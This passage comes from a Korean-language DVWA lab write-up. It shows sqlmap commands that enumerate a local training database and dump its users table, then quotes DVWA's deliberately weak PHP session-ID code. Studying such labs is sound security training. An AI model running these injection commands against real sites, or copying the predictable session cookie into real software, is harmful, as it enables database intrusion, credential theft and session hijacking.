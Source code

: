```bash
sqlmap -u "http://192.168.3.128/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=mgf249ms3gbccu03eppvk3vuic; security=low" --current-db
```
![image-20220522150945304](../img/image-20220522150945304.png)

<br>

2.테이블의 이름 확인하기
```bash
sqlmap -u "http://192.168.3.128/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=mgf249ms3gbccu03eppvk3vuic; security=low" -D dvwa --tables
```

![image-20220522151118628](../img/image-20220522151118628.png)

<br>

3.컬럼 정보 확인하기

```bash
sqlmap -u "http://192.168.3.128/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=mgf249ms3gbccu03eppvk3vuic; security=low" -D dvwa -T users --dump
```

![image-20220522151532244](../img/image-20220522151532244.png)

명령어 3줄로 크랙이 완료되었다. 정말 어마어마한 툴 인 듯하다.  
해당 과정 중에서 4 개의 질의가 있었는데 가장 빨리 끝날 수 있도록 기초적인 설정만 했다.





<br><br><br>

-----

# > DVWA: Weak SESSION IDs

![image-20220521174253840](../img/image-20220521174253840.png)

php로 세션 인증을 만들던 당시 `session_start()`를 이용해 세션 값을 생성하고 로그인이 되었는지 확인할 때 세션 값의 존재 유무를 확인하던 때가 기억이 난다. 그게 벌써 3주전이라니 ...

## 삽질

![image-20220521174412512](../img/image-20220521174412512.png)

문제의 Generate 버튼을 누르면 아래 개발자 도구에서 확인할 수 있는 쿠키의 값이 변경된다.

```php
<?php

$html = "";

if ($_SERVER['REQUEST_METHOD'] == "POST") {
    if (!isset ($_SESSION['last_session_id'])) {
        $_SESSION['last_session_id'] = 0;
    }
    $_SESSION['last_session_id']++;
    $cookie_value = $_SESSION['last_session_id'];
    setcookie("dvwaSession", $cookie_value);
}
?> 
```
